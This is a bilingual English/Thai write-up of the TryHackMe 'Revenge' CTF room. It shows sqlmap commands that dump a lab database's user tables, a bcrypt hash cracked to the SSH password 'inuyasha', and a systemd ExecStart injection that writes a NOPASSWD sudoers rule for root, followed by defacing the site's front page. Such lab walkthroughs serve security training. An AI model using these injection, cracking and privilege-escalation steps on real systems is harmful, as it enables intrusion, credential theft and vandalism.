### ✨ Introduction
Revenge is a Web-focused CTF room on TryHackMe, designed to challenge participants with tasks such as exploiting web applications, performing SQL Injection, escalating privileges, and defacing the website's front page according to the objectives provided.

### 🔍 Challenge Objective
"Break into the server that’s running the website and deface the front page."

Summary:
- Gain access to the target machine
- Modify the website's front page
- Capture all three flags

# 🧠 TryHackMe - Revenge

> 🟡 Category: Web / Privilege Escalation
> 🧩 Difficulty: Medium
> 🕵️‍♂️ Mode: Capture The Flag (CTF)
> 🧩 URL: [Revenge](https://tryhackme.com/room/revenge)  
> 👨‍💻 Author: Thanyakorn

---

## 📚 Table of Contents
- 📌 Challenge Overview
- 🛰️ 1. Target Information
- 🌐 2. Exploring the Website
- 📌 Initial Observations  
- 🚪 3. Initial Access
  - 🔸 3.1 Testing for SQL Injection using sqlmap
  - 🔸 3.2 Database Structure Enumeration 
  - 🔸 3.3 Dumping the user Table
  - 🔸 3.4 Dumping the system_user Table
  - 🔐 3.5 Credential Cracking with John the Ripper
- 🛠️ Preparing Hash Files
- 🧂 Cracking Bcrypt Hashes with John the Ripper
  - 📦 Using john with rockyou.txt
- 🔐 4. SSH into the Target Machine
- 📁 5. Searching for Flags
- 🔼 6. Privilege Escalation  
  - 🔍 6.1 Checking Sudo Privileges
  - ✏️ 6.2 Editing Service Files using sudoedit 
  - ⚙️ 6.3 Modifying Unit File to Exploit Service Privileges  
  - 🔄 Reload และ Restart Service  
  - 🧑‍💻 6.4 Escalating to Root
  - 📂 Searching for Additional Flags  
- 🌐 7. Defacing the Website 
  - 📁 7.1 Locating the Website Directory
  - ✍️ 7.2 Editing the Front Page
  - 🛠️ 7.3 Saving and Verifying Changes
- 🏁 8. Capturing the Final Flag (flag3.txt)


---

## 📌 Challenge Overview

> "What I want you to do is simple. Break into the server that's running the website and deface the front page."

💬 Interpretation: The goal is to gain access to the server hosting the website and modify its front page (deface).

---

## 🛰️ 1. Target Information

- Target IP: `10.10.28.30`
- Open Ports: `22`, `80`

---

## 🌐 2. Exploring the Website

- Navigate to the **Products** menu; four products are listed.  
- Click **LEARN MORE** on any product.



- Example: Box of Duckies
- Product details such as image, description, price, and color are displayed 
- Notice the URL path: `/products/1`  
- Navigate back and click **LEARN MORE** on another product



- The path updates only the product ID: `/products/2`



- Change the URL ID to 3 to view the third product



---

## 📌 Initial Observations

- The website likely fetches product data from a database using the URL ID parameter
- Injecting a single quote `'` into the parameter triggers an HTTP 500 error, indicating a potential SQL Injection vulnerability



---

## 🚪 3. Initial Access

### 🔸 3.1 Testing SQL Injection with sqlmap

📥 Use the command:

```bash
sqlmap -u "http://10.10.28.30/products/3*" --dbs
```



📝 **Explanation:**

- `sqlmap` is an automated tool to test SQL Injection and extract database information 
- `-u` specifies the target URL; `"3*"` uses a wildcard to test multiple values for the `id` parameter  
- `--dbs` lists all databases connected to the web application



💡 Result: Several databases were found, including the main `duckyinc` and system databases like `mysql` and `information_schema`.

> Focus will be on the `duckyinc` database as it contains the primary website data.

**Summary:**  
SQL Injection confirmed at the `id` URL parameter, granting access to the main database.

### 🔸 3.2 Database Structure Enumeration

📥 Use the command:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc --columns
```



📝 **Explanation:**

- `-D duckyinc` specifies the database
- `--columns` lists all columns in all tables of the database


Respond `Y` when prompted to continue.



💡 Result: Database structure obtained, necessary for extracting target data.

### 🔸 3.3 Dumping the user Table

After enumerating the database, the next step is to retrieve data from the `user` table, which may contain sensitive information like passwords or flags.

📥 Use the command:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc -T user --dump
```



📝 **Explanation:**

- `-D duckyinc` specifies the target database.
- `-T user` specifies the table to dump.
- `--dump` extracts all data from the table.



💡 Result: The `credit_card` column of `id=6` contains a hidden flag.



### 🔸 3.4 Dumping the system_user Table

Next, focus on the `system_user` table, which may contain user credentials or information relevant for privilege escalation.

📥 Use the command:

```bash
sqlmap -u "http://10.10.28.30/products/3*" -D duckyinc --dump -T system_user
```


📝 **Explanation:**

- `-T system_user` specifies the table to dump



💡 Result: Found `username` and `password` stored as bcrypt hashes.

### 🔐 3.5 Credential Cracking with John the Ripper

The passwords retrieved from the `system_user` table are in bcrypt format, a commonly used hashing algorithm.

## 🛠️ Preparing Hash Files

1. สร้างโฟลเดอร์ชื่อ `ducky` แล้วเข้าไปในโฟลเดอร์:

```bash
mkdir ducky
cd ducky
```

2. สร้างไฟล์ชื่อ `hashes.txt` เพื่อเก็บ hash:

```bash
nano hashes.txt
```



3. วาง bcrypt hash ที่ได้จาก sqlmap (ในที่นี้ใส่เฉพาะของ user `server-admin`)

> 📌 แนะนำให้ลบ hash อื่น ๆ ออก เพื่อให้ crack ได้เร็วขึ้น



---

4. ตรวจสอบว่า hash ถูกบันทึกเรียบร้อย:

```bash
cat hashes.txt
```

## 🧂 Crack Bcrypt Hash ด้วย John the Ripper
### 📦 เราจะใช้ john คู่กับ rockyou.txt ในการ Dictionary attack:

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

⚠️ หมายเหตุ:
> ถ้ามันขึ้นว่า `No password hashes left to crack` หมายความว่า john ได้ทำการถอดรหัสแฮชที่มีอยู่ในไฟล์ `hashes.txt` เรียบร้อยแล้วหรือไม่มีแฮชที่เหลือให้ทำการถอดรหัสจากไฟล์นั้น

- หลังจากรันเสร็จรอจนกว่าจะ crack สำเร็จ จากนั้นดูผลลัพธ์ที่ได้โดยใช้คำสั่ง:
```bash
john --show hashes.txt
```



💡 ผลลัพธ์ที่ได้:
ได้รหัสผ่าน: `inuyasha` สำหรับ `server-admin`

---

## 🔐 4. SSH เข้าเครื่องเป้าหมาย

- หลังจากได้รหัสผ่าน `inuyasha` ของผู้ใช้ `server-admin` ใช้ SSH เข้าเครื่องเป้าหมายผ่านพอร์ต 22
  
📥 Use the command:

```bash
ssh server-admin@10.10.28.30
```

📝 คำอธิบาย:

- SSH (Secure Shell) ใช้ในการเชื่อมต่อแบบปลอดภัยไปยังเครื่องอื่นผ่านเครือข่าย
- เหมาะสำหรับการควบคุมเซิร์ฟเวอร์, จัดการไฟล์, รันคำสั่งระยะไกล
- การเชื่อมต่อผ่าน SSH มีการเข้ารหัสข้อมูลเพื่อความปลอดภัย

เมื่อรันคำสั่ง ระบบจะขอให้กรอกรหัสผ่าน → ให้ใส่ `inuyasha`
\
✅ หากเชื่อมต่อสำเร็จ จะได้ Shell ของเครื่องเป้าหมายในฐานะผู้ใช้ `server-admin`



---

## 📁 5. ค้นหา Flag

หลังจากเข้าสู่ระบบได้แล้ว ให้ลองดูไฟล์ใน home directory ของ `server-admin`:

```bash
ls
```

💡 ผลลัพธ์: พบไฟล์ชื่อ `flag2.txt`

ใช้คำสั่งเพื่ออ่านเนื้อหา:

```bash
cat flag2.txt
```



✅ ได้ Flag ที่สอง นำไปใช้ตอบใน TryHackMe 



---

## 🔼 6. Privilege Escalation

ตรวจสอบสิทธิ์ผู้ใช้ `server-admin` ว่าสามารถใช้ `sudo` กับคำสั่งใดได้บ้าง

### 🔍 6.1 ตรวจสอบสิทธิ์ด้วยคำสั่ง:

```bash
sudo -l
```


📝 คำอธิบาย:
- `sudo -l` ใช้ดูว่าเราสามารถใช้สิทธิ์ sudo กับคำสั่งอะไรได้บ้างโดยไม่ต้องใช้รหัสผ่านเพิ่มเติม

💡 ผลลัพธ์: พบว่าใช้ไบนารี `systemctl` เพื่อเริ่ม/หยุด/รีสตาร์ทบริการ `duckyinc` ได้

### ✏️6.2 แก้ไขไฟล์ Service ด้วย `sudoedit`

📥 Use the command:

```bash
sudoedit /etc/systemd/system/duckyinc.service
```



💡 เมื่อกด Enter แล้ว ระบบจะเปิดไฟล์ด้วย editor (เช่น nano หรือ vi) ขึ้นมาให้แก้ไข config ได้ทันที



🔍  พบว่าแอปพลิเคชันทำงานภายใต้ผู้ใช้ `flask-app` ซึ่งไม่ใช่ `root` 

🔍  สันนิษฐานว่าแอปนี้พัฒนาโดยใช้ Flask (Python web framework)

🔍  ต้องทำ Privilege Escalation จากผู้ใช้ `flask-app` ไปเป็น `root`



หลังจากแก้ไขไฟล์บริการแล้ว ต้อง reload daemon เพื่อให้ systemd รับการเปลี่ยนแปลง:

```bash
sudo  systemctl daemon-reload
```

จากนั้นรีสตาร์ท service เพื่อให้โหลด config ใหม่:

```bash
sudo systemctl restart duckyinc.service
```


### ⚙️ 6.3 แก้ไข Unit File เพื่อ Exploit สิทธิ์ผ่าน Service

- เป้าหมายของขั้นตอนนี้คือ แทรกคำสั่งลงใน Service `(ExecStart)` เพื่อทำให้ผู้ใช้ `server-admin` สามารถรัน `/bin/bash` ด้วยสิทธิ์ `root` โดยไม่ต้องใช้รหัสผ่าน
- ในไฟล์ `duckyinc.service` ให้แก้บรรทัด `ExecStart` ดังนี้:

```bash
/bin/bash -c "echo 'server-admin ALL=(ALL) NOPASSWD: /bin/bash' | sudo tee /etc/sudoers.d/server_admin_as_root &&
```
  


📝 คำอธิบาย:

- echo 'server-admin ALL=(ALL) NOPASSWD: /bin/bash' สร้าง rule ใหม่ให้ sudo ใช้งาน bash โดยไม่ต้องใช้รหัสผ่าน
- sudo tee /etc/sudoers.d/server_admin_as_root บันทึก rule นี้ลงในระบบ
- ใช้ && ต่อท้ายเพื่อให้ระบบรันแอปเดิมต่อไปตามปกติ (ไม่ให้ระบบพัง)

> 🎯 นี่คือจุดที่เรา "ฝัง payload" เข้าไปใน Service ทำให้เมื่อ Service นี้ถูกรันอีกครั้ง (ด้วย systemctl) ระบบจะทำงานตามที่เราสั่ง (Privilege Escalation)

- อย่าลืมต่อท้าย ExecStart ด้วย app:app เพื่อให้บริการทำงานต่อได้


### 🔄 Reload และ Restart Service

- หลังจากแก้ไขไฟล์ .service ให้รันคำสั่งด้านล่างเพื่อให้ systemd โหลดค่าที่เปลี่ยนแปลง:

```bash
sudo systemctl daemon-reload
sudo systemctl restart duckyinc.service
```



> 📌 การที่เราทำแบบนี้คือจะทำให้ผู้ใช้ server-admin สามารถเรียกใช้งาน /bin/bash ด้วยสิทธิ์ root ได้โดยไม่ต้องกรอกรหัสผ่าน

- จากนั้นตรวจสอบสิทธิ์อีกครั้งด้วยคำสั่ง:

```bash
sudo -l
```


### 🧑‍💻 6.4 ยกระดับสิทธิ์เป็น Root

หลังจากรีโหลดและรีสตาร์ท service แล้ว ตอนนี้ผู้ใช้ `server-admin` จะสามารถรันคำสั่ง `/bin/bash` ด้วยสิทธิ์ `root` ได้โดยไม่ต้องใช้รหัสผ่าน

📥 Use the command:

```bash
sudo bash
```

✅ หากสำเร็จ เราจะได้ shell ที่รันในฐานะ root แล้ว



### 📂 ค้นหา Flag เพิ่มเติม

- ใช้คำสั่ง ls เพื่อตรวจสอบไฟล์ในโฟลเดอร์ปัจจุบัน

```bash
ls
ls -la
```

- ไม่พบไฟล์ flag4.txt ตามที่คาดไว้



📭 ผลลัพธ์: ไม่มี flag4 หรือไฟล์น่าสงสัยใน home directory

⚠️ 6.4 เป้าหมายที่แท้จริง: Deface หน้าเว็บ

> 📌 อย่าลืมว่าเป้าหมายของภารกิจนี้ตามที่ระบุในโจทย์คือ:

"Break into the server and deface the front page."

ไม่ใช่แค่การยกระดับสิทธิ์เท่านั้น

---

## 🌐 7. แก้ไขหน้าเว็บ `(Deface)`

ตอนนี้เราจะเปลี่ยนหน้าแรกของเว็บไซต์ `(หน้า default)` ให้เสียหายตามโจทย์ที่กำหนด

### 📁 7.1 ค้นหา Directory เว็บไซต์

ตำแหน่งของเว็บไซต์อยู่ที่:

```bash
cd /var/www/duckyinc/
ls
```
🔍 เมื่อเข้าไปจะพบโฟลเดอร์ชื่อ `templates`

- เข้าไปใน templates และดูไฟล์ภายใน:

```bash
cd templates
ls
```



### ✍️ 7.2 แก้ไขหน้าแรกของเว็บไซต์

> เมื่อเปิดไฟล์ index.html จะพบว่าเป็นโค้ด HTML สำหรับหน้าแรกของเว็บไซต์ทั้งหมด

📥 Use the command:

```bash
nano index.html
```

📝 คำอธิบาย:

- `nano` เป็นโปรแกรม editor สำหรับแก้ไขไฟล์จาก command line
- `index.html` คือไฟล์หน้าแรกของเว็บ — หากเราแก้ไขไฟล์นี้ หน้าแรกของเว็บไซต์ก็จะเปลี่ยนไปทันที

จากที่เราทำการ `nano` เข้าไปดูในไฟล์จะพบว่า `code` ตรงกันหมดเลยของการสร้างหน้าแรกเว็บไซต์



### 🛠️ 7.3 ทำการแก้ไขหน้าเว็บและบันทึกการเปลี่ยนแปลง

- ทำการแก้ไขหัวข้อภายในไฟล์ index.html จาก `<h1>Rubber Ducky Inc.</h1>` → `<h1>Chokchai Want Grade F Kub</h1>`

- จากนั้นกด `Ctrl + X` → กด `Y` เพื่อบันทึก และ `Enter` เพื่อยืนยันการเปลี่ยนชื่อไฟล์เดิม
  
📷 หลังจาก `Save` แล้ว เปิดหน้าเว็บไซต์ผ่าน `Browser`



✅ จะเห็นว่าหน้าเว็บเปลี่ยนไปตามที่เราแก้ไขจริง แสดงว่าการ `Deface` สำเร็จ

## 🏁 8. ค้นหา Flag สุดท้าย (flag3.txt)

- กลับไปที่ root directory:

```bash
cd /root
ls
```
- จะพบไฟล์ `flag3.txt` ให้ใช้คำสั่งอ่าน:

```bash
cat flag3.txt
```


- ✅ ได้ `Flag` สุดท้าย




